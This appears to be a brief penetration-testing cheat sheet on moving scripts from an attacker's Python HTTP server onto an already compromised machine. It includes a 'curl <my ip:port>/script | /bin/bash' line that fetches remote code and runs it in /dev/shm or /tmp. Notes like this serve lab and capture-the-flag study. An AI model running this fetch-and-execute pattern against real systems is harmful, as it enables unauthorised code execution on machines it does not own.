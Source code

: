 ## PYTHON server 

**on my terminal**
  (open the server in the dir you have the scripts so that it will wget all the files of the dir on the mac)

```bash
  python -m SimpleHTTPServer (portnumber)
```
```bash 
python3 -m http.server (portnumber)

```

**on the mac so obtained/revershell**

dir > /dev/shm (wget any script in this dir)

```bash
 wget -r <my ip>  #(do ifconfig to know the ip)
```
  or

```bash
 curl <my ip:port>/script | /bin/bash
```

Note: you can also wget or curl in /tmp directory 
# If you see an error 'No module named SimpleHTTPServer' it's because Python SimpleHTTPServer has been migrated to python http.server module in python 3
